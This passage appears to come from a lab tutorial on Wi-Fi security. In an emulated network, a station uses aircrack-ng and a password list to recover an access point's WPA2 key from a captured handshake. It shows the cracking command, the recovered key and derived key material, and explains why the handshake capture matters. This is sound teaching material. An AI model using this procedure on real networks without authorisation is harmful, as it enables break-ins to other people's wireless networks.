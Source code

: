 
Then we run _aircrack_, so that it can compare the contents of the password file named <_password.psk_> and the traffic data that **sta2** captured when **sta1** joined the **ap1** access point.

```
    sta2# aircrack-ng -w password.psk -b 02:00:00:00:02:00 sniffer-01.cap
```

And... _voilà_! _Aircrack_ was able to discover the password of the **ap1** access point, as can be seen below.

```
      [00:00:00] 1/0 keys tested (234.69 k/s) 

      Time left: 0 seconds                                   inf%

                          KEY FOUND! [ 123456789a ]


      Master Key     : AE 48 BB 45 8C C1 27 E0 B2 E0 06 8B 78 C6 3A 85 
                       C1 F6 13 44 09 FC 89 9F 94 C5 AB 1F B2 C6 D9 E5 

      Transient Key  : 8F 77 37 71 F4 DE 6A F3 4A F2 B1 FC 81 85 C4 75 
                       57 2A A4 87 DA FA 0E 8B 56 8A 19 D1 F6 84 6C 3F 
                       08 F6 92 53 41 B1 CE 0D FB 81 50 CD 16 8D 20 B4 
                       6D 2A AB 62 28 F7 2C 66 A5 47 89 DC 8E 1C 52 E2 

      EAPOL HMAC     : 53 2E 25 04 69 28 66 64 D1 8A AC 7C 82 6C FA 0
```

#### The 4-Way handshake
The key discovery described in the previous section was only possible because _airodump-ng_ captured the WPA2 handshake. It is imperative to capture traffic data that include handshake messages, otherwise the password discovery process will not work.
